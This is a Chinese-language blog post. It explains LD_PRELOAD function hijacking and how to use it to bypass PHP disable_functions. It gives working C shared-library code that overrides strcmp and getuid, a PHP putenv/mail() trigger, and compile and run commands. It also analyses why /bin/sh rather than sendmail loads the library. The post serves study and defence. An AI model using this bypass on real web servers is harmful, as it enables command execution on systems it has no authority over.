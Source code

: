 ```yaml
---
title: "利用LD_PRELOAD绕过disable_function"
date: 2021-05-03T10:24:32+08:00
---
```


## 什么是LD_PRELOAD

在**Linux**的动态链接库的世界中，**LD_PRELOAD**是一个环境变量，它可以影响程序的运行时的链接（Runtime linker），允许你定义在程序运行前优先加载的动态链接库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。

这里我们举行一个密码验证的例子，来初步探究**LD_PRELOAD**与动态链接的关系。

```c
/* login.c */
#include <stdio.h>
#include<string.h>
int main(int argc,char **argv){
    char passwd[]="password";
    if(!strcmp(passwd,argv[1])){
        printf("Correct Password!/n");
        return 1;
    }
    printf("Invalid Password!/n");
    return 0;
}
```

在上面这段程序中，我们使用了strcmp函数来判断两个字符串是否相等。下面，我们使用一个动态函数库来重载strcmp函数：

```c
/* hack.c */
#include "stdio.h"
#include <string.h>
int strcmp(const char *s1,const char *s2){
    printf("hacking! s1=%s,s2=%s\n",s1,s2);
    // return 0 indicates that 2 strings are equial 
    return 0 ;
}
```
编译程序：
 ```bash
☁  c  gcc login.c -o login
☁  c  gcc -shared hack.c -o hack.so
 ```

运行一下:

```bash
☁  c  ./login 123456
Invalid Password!/n% 
```

设置**LD_PRELOAD**变量:(使我们重写过的strcmp函数的hack.so成为优先载入链接库)，再重新运行

```bash
☁  c  export LD_PRELOAD="./hack.so"
☁  c  ./login 123456
hacking! s1=password,s2=123456
Correct Password!/n%
```

可以看到：

1. 我们的hack.so中的ctramp被调用了。
2. 主程序中的运行结果被影响了。

## 绕过disable_function

设想这样一种思路:

	利用web漏洞启动一个新进程a.bin
	a.bin内部调用系统函数b(),b()位于系统共享对象c.so中
	我们创建c_evil.so，c_evil.so含有与b()中同名的恶意函数，同时把利用web漏洞将c_evil.so加载到环境变量中
	由于c_evil.so优先级最高，所以a.bin将调用c_evil.so中的b()，达到命令执行。

根据上面的思路，我们需要web漏洞环境满足以下几种条件：

1. 具有可写入目录,用于上传.so文件
2. 能够控制**LD_PRELOAD**环境变量的值，例如**putenv()** 函数。
3. 函数调用的新进程需要加载.so文件。

在第三点中，经过测试`mail()`、`imap_mail()`、`mb_send_mail()`、`error_log()`均可以调用外部新进程，这里我们拿`mail()`作为研究对象。

```php
<?php
mail("","","","","");
?>
```
**strace**命令可以用于跟踪api调用情况

```bash
☁  ~  strace -f php mail.php 2>&1 | grep -A2 -B2 execve
sh: 1: /usr/sbin/sendmail: not found
```

发现确实调用了外部进程..但我没有下载...下载后:

![image-20210503141852067](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-03-image-20210503141852067.png)

我们再跟进看一看**sendmail**：

```bash
☁  ~  readelf -Ws /usr/sbin/sendmail
Symbol table '.dynsym' contains 347 entries:
   Num:    Value          Size Type    Bind   Vis      Ndx Name
     0: 0000000000000000     0 NOTYPE  LOCAL  DEFAULT  UND 
     1: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND sasl_server_init@SASL2 (2)
     2: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND DH_size@OPENSSL_1_1_0 (3)
     3: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND X509_STORE_set_flags@OPENSSL_1_1_0 (3)
     4: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND wait@GLIBC_2.2.5 (4)
     5: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND X509_STORE_add_crl@OPENSSL_1_1_0 (3)
     6: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND SSL_CTX_load_verify_locations@OPENSSL_1_1_0 (5)
     7: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND SSL_CTX_set_client_CA_list@OPENSSL_1_1_0 (5)
     8: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND ERR_reason_error_string@OPENSSL_1_1_0 (3)
     9: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND DSA_generate_parameters_ex@OPENSSL_1_1_0 (3)
    10: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND getuid@GLIBC_2.2.5 (4)
    11: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND getsockname@GLIBC_2.2.5 (4)
    12: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __res_state@GLIBC_2.2.5 (4)
    13: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND uname@GLIBC_2.2.5 (4)
    14: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND BN_new@OPENSSL_1_1_0 (3)
    15: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND select@GLIBC_2.2.5 (4)
    16: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND RSA_new@OPENSSL_1_1_0 (3)
    17: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND memcpy@GLIBC_2.14 (6)
    ...
	...
```

在若干库函数中，我们选择**getuid**作为研究对象。

```c
/* hack.c*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void hack(){
    system("echo theoyu > result");
}

int getuid(){
    unsetenv("LD_PRELOAD");
    hack();
}
```

编译:

```bash
☁  demo  gcc -shared hack.c -o hack.so
```

php：

```php
<?php
putenv("LD_PRELOAD=/home/theoyu/demo/hack.so");
mail("","","","","");
?>
```

执行:

```bash
☁  demo  php mail.php
☁  demo  cat result 
theoyu
```

可以看到我们没有利用任何PHP 的 命令执行函数（system()、exec() 等等）仍可执行系统命令的目的。

但很明显可以看到一点，在真实情况下，肉鸡不一定安装了**sendmail**，我们也不可能通过www-data用户去让其安装，基于这点，[yangyangwithgnu](https://www.freebuf.com/web/192052.html)师傅发现了一个可以**加载时就执行代码**的方法，进而达到命令执行的效果。

## 一个误区

在[yangyangwithgnu](https://github.com/yangyangwithgnu)的文章中，是这样写到的：

	回到 LD_PRELOAD 本身，系统通过它预先加载共享对象，如果能找到一个方式，在加载时就执行代码，
	而不用考虑劫持某一系统函数，那我就完全可以不依赖 sendmail 了。这种场景与 C++ 的构造函数
	简直神似！几经搜索后了解，GCC 有个 C 语言扩展修饰符 __attribute__((constructor))，
	可以让由它修饰的函数在 main() 之前执行，若它出现在共享对象中时，那么一旦共享对象被系统加
	载，立即将执行 __attribute__((constructor)) 修饰的函数。强调下，这一细节非常重要，很多
	朋友用LD_PRELOAD 手法突破 disable_functions 无法做到百分百成功，正因为这个原因，我们不
	要局限于仅劫持某一函数，而应考虑劫持共享对象。


按照这篇文章的说法，我们只需利用`putenv`设置`LD_PRELOAD` ，使得使用了`__attribute__((constructor))`修饰函数的恶意动态链接库被系统加载便能实现命令执行，而不再需要再去劫持程序调用的库函数，`sendmail` 存不存在也就无所谓了。

然而我们的这个恶意动态链接库（共享对象）究竟是怎么被 “系统” 加载的呢？文章中没有说的很清楚，也可能是我对于程序的链接、装载这一块确实不了解，所以我打算动手实践一下。

但是一个不可思议的结果发生了... 我手动把**sendmail** 删除后，不小心又重新运行了一次`php mail.php`,**result** 命令执行居然还是成功了。

```bash
☁  demo  php mail.php 
sh: 1: /usr/sbin/sendmail: not found
☁  demo  cat result 
theoyu
```

这我不太能接受，如果sendmail根本不需要的话，那文章的后大篇幅关于**__attribute__((constructor))**的讲解也是没有太大意义的，我们回头看看`strace -f php mail.php 2>&1 | grep -A2 -B2 execve`

![image-20210503160144193](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-03-image-20210503160144193.png)

事实上，顺着作者的思路，我们居然把**/bin/sh**这个调用进程所忽略了，也就是说在这一步，真正加载了动态链接库的其实是`/bin/sh` 的进程，其实我们大可不必使用`__attribute__((constructor))` ，直接劫持`/bin/sh` 的库函数即可,方法与**sendmail** 一致。可以说用`__attribute__((constructor))` ，只是为我们免去了挑选库函数的一步而已。

## 参考
- [深入浅出LD_PRELOAD & putenv()](https://www.anquanke.com/post/id/175403#h2-1)
- [无需sendmail：巧用LD_PRELOAD突破disable_functions](https://www.freebuf.com/web/192052.html)


